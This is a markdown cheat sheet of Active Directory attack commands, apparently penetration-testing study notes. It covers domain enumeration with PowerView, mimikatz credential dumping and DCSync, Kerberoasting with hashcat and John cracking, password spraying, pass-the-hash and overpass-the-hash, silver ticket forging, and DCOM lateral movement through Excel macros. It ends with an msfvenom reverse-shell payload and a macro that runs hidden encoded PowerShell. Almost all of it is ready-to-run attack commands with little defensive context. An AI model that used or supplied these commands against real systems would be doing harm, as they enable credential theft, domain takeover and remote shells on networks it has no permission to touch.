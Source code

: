 #### Active Directory

```
net user
net user /domain
net user jeff_admin /domain
net group /domain
```

#### LDAP Provider Path Format

```
LDAP://HostName[:PortNumber][/DistinguishedName]

```

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```


#### Logged on Users

```
Import-Module .\PowerView.ps1

Get-NetLoggedon -ComputerName client251

Get-NetSession -ComputerName dc01

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/powerview.ps1


import-module C:\Tools\active_directory\GetSPN.ps1
Get-SPN -type service -search "*.corp.com*"

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Get-SPN.ps1


#### Cached creds retrieval

```
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Service account attack

Requesting service ticket and display tickets

```
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

klist
```

```
kerberos::list /export

```

Cracking the ticket

```
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/nidem/kerberoast

#### Cracking password using JTR

Use the script from repo
https://github.com/nidem/kerberoast


```
john --format=krb5tgs ./crack --wordlist=~/oscp/exer/wordlist.txt

python kirbi2john.py ~/oscp/exer/1-40a10000-offsec@MSSQLSvc~CorpSqlServer.corp.com~1433-CORP.COM.kirbi > crack

```
#### Using Invoke-kerberoast.ps1

```

Import-module Invoke-kerberoast.ps1

Get-DomainSPNTicket -SPN "HTTP/CorpWebServer.corp.com"

Get-Domain -Domain corp.com

Get-DomainUser -SPN

 Get-DomainUser -domain corp.com

Get-DomainUser


Invoke-kerberoast -OutputFormat john

Invoke-kerberoast -OutputFormat hashcat

hashcat -m 13100 -a 0 kerb-hash0.txt ./wordlist.txt --force

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

```

#### Low and Slow Password guessing

```
net accounts

.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
.\Spray-Passwords.ps1 -File pass.txt -Admin
```
### Lateral movement

#### Pass the Hash

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

#### Overpass the Hash

```
sekurlsa::logonpasswords

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

klist - no ticket listed

net use \\dc01

klist - ticket listed after net use

 .\PsExec.exe \\dc01 cmd.exe

ipconfig

whoami
```
https://download.sysinternals.com/files/PSTools.zip


#### Pass the Ticket

  get the SID

`whoami /user` 

purge kerberos ticket

```
kerberos::purge

kerberos::list
```

The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), which is highlighted above, the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4).Finally, the generated silver ticket is injected directly into memory with the /ppt flag.

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list

```

lsadump::dcsync /user:corp\iis_service

kerberos::hash /password:puttheservicepasswordhere

#### DCOM

POC Macro

```
 Sub mymacro()
Shell ("notepad.exe")
End Sub
```
Execute Excel Macro Remotely

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls" 
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop" 
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls") 
$com.Run("mymacro")

```

Generate shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

Updated POC Macro

```
Sub MyMacro()
Dim Str As String
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"

Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
Shell (Str)
End Sub
```

